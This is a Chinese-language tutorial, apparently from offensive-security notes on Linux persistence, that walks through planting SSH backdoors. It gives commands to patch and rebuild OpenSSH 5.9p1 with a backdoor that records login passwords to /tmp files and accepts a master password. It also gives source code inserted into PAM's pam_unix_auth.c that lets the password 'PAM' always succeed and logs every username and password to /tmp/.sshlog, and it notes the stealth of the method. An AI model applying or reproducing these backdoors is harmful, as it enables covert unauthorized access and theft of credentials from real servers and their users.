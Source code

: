 ## Open SSH 后门
```bash
# 下载openssh-5.9p1.tar.gz openssh-5.9p1.patch.tar.gz
tar zxf openssh-5.9p1.tar.gz
tar zxf openssh-5.9p1.patch.tar.gz
cp openssh-5.9p1.patch/sshbd5.9p1.diff openssh-5.9p1
patch < sshbd5.9p1.diff
# 修改version.h 为ssh -V 的版本
# vim version.h
./configure --prefix=/usr --sysconfdir=/etc/ssh --with-pam --with-kerberos5
make
# 这里需要注意，编译缺少的环境需要安装，在centos上比Debian简单
make install
```
修改include.h，默认将ssh登录该服务器的密码存储在/tmp/ilog 和 该服务器登录远程服务器的明文密码存储在/tmp/olog，SECRETPW 为
![image.png](./Linux 权限维持.assets/2023_05_19_10_23_59_Ayj0xKwL.png)

在受害机ssh登录服务器

![image.png](./Linux 权限维持.assets/2023_05_19_10_23_59_UCsKQT8n.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_00_AiuE930H.png)

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_00_yf0Q54sF.png)

使用`apaajaboleh`登录

![image.png](./Linux 权限维持.assets/2023_05_19_10_24_00_gYHkaO2X.png)



| 优点 | 缺点 |
| :-: | :-: |
| 隐蔽性较强，攻击行为接近正常登录，不易触发其他告警。 | 需要编译环境，缺少GCC或其他依赖包容易出现问题，相对容易排查 |

## SSH PAM 后门
PAM 是 Linux 默认的 SSH 认证登录机制，可以通过修改源码实现万能密码，记录登录密码等功能

```bash
# 首先查看PAM版本，需要有gcc编译环境
rpm -qa | grep pam
tar zxvf Linux-PAM-1.1.8.tar.gz
cd Linux-PAM-1.1.8
# 修改源码
vim modules/pam_unix/pam_unix_auth.c
# 添加代码
if(strcmp("PAM",p)==0){return PAM_SUCCESS;}
if(retval == PAM_SUCCESS){    
  FILE * fp;    
  fp = fopen("/tmp/.sshlog", "a");    
  fprintf(fp, "%s : %s\n", name, p);    
  fclose(fp);
}
# 预编译
./configure --prefix=/user --exec-prefix=/usr --localstatedir=/var --sysconfdir=/etc --disable-selinux --with-libiconv-prefix=/usr
# 编译，编译前可能会报错需要安装flex 和 flex-devel
yum install flex flex-devel -y
make
```
![image.png](./Linux 权限维持.assets/2023_05_19_10_24_01_GiFo3wyZ.png)
